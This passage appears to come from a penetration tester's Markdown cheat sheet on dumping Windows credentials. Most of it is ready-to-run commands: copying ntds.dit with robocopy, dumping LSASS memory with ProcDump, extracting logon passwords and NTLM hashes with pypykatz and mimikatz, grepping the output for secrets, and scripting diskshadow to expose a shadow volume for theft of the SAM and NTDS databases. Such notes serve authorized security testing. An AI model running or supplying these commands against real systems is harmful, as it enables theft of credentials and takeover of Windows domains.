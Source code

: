 
#### robocopy

```
PS > cmd /c where robocopy
PS > robocopy /B W:\Windows\NTDS\ntds.dit C:\Users\snovvcrash\Documents\ntds.dit
```




## Dump Creds



### ProcDump

* [docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
* [download.sysinternals.com/files/Procdump.zip](https://download.sysinternals.com/files/Procdump.zip)

Dump and parse:

```
PS > .\procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
$ pypykatz lsa minidump lsass.dmp > lsass-pypykatz.minidump
Or
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
```

Grep for secrets:

```
$ grep '* Username : ' lsass-mimikatz.minidump -A2 | grep -e Username -e Password -e NTLM | grep -v null | xclip -i -sel c
$ grep -P '\tusername ' lsass-pypykatz.minidump -A2 | grep -e username -e password | grep -v None | xclip -i -sel c
```



### SAM & NTDS

Locate `diskshadow.exe`:

```
cmd /c where /R C:\ diskshadow.exe
```

Create shadow volume:

```
powershell -c "Add-Content add_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content add_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content add_vol.txt 'set verbose on'"
powershell -c "Add-Content add_vol.txt 'begin backup'"
powershell -c "Add-Content add_vol.txt 'add volume c: alias DCROOT'"
powershell -c "Add-Content add_vol.txt 'create'"
powershell -c "Add-Content add_vol.txt 'expose %DCROOT% w:'"
powershell -c "Add-Content add_vol.txt 'end backup'"
cmd /c diskshadow.exe /s add_vol.txt
```
